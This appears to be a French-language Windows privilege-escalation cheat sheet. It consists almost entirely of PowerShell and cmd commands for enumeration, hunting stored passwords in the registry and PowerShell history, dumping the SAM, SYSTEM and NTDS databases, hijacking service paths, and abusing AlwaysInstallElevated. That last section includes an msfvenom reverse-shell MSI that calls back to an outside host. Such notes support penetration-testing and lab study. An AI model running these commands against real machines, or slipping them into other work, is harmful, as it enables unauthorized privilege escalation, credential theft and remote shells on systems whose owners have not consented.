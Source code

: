 # Enumération

## Outils

- **winPEAS** : https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS

## Commandes

```powershell
whoami /groups
Get-LocalUser
Get-LocalGroup
Get-LocalGroupMember Administrators
systeminfo
ipconfig /all
route print
netstat -ano
Get-Process
Get-History
type C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Get-ScheduledTask
schtasks /query /fo LIST /v
set
dir env:
Get-ChildItem Env: | ft Key,Value
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
REG QUERY "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon" /v DefaultPassword
Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode
wmic service get name,displayname,startmode,pathname
```

## Fichiers Intéressants

```powershell
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\system32\config\SecEvent.Evt
```

## Se connecter à un autre utilisateur

```powershell
runas /user:athenax cmd
powershell -Command "Start-Process powershell -Verb RunAs"
```

## Exécuter un script avec mot de passe

```powershell
$Username = "NomUtilisateur" 
$Password = ConvertTo-SecureString "VotreMotDePasse" -AsPlainText -Force 
$Credential = New-Object System.Management.Automation.PSCredential($Username, $Password) 
Start-Process -FilePath "powershell.exe" -ArgumentList "-Command Your-Command-Here" -Credential $Credential -NoNewWindow
```

# Privilège

## SeBackupPrivilege / SeRestorePrivilege

```powershell
mkdir C:\Temp
reg save hklm\sam C:\Temp\sam
reg save hklm\system C:\Temp\system
```

## Ntds

```powershell
set context persistent nowriters
add volume c: alias temp
create
expose %temp% h:
exit
```

# Service Exploit

```powershell
sc query | find "RUNNING"
Get-Service | Where-Object {$_.Status -eq 'Running'}
tasklist /svc
```

## Insecure Service Permission

```powershell
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
sc qc daclsvc
sc config daclsvc binpath= "\"C:\users\desktop\rev.exe\""
net start daclsvc
```

## Unquoted Service Path

```powershell
sc qc unquotedsvc
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
net start unquotedsvc
```

# Registry

## AlwaysInstallElevated

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
msiexec /quiet /qn /i C:\users\user\desktop\reverse.msi
```

# Password Extraction

```powershell
reg query HKLM /f password /t REG_SZ /s
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
cmdkey /list
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```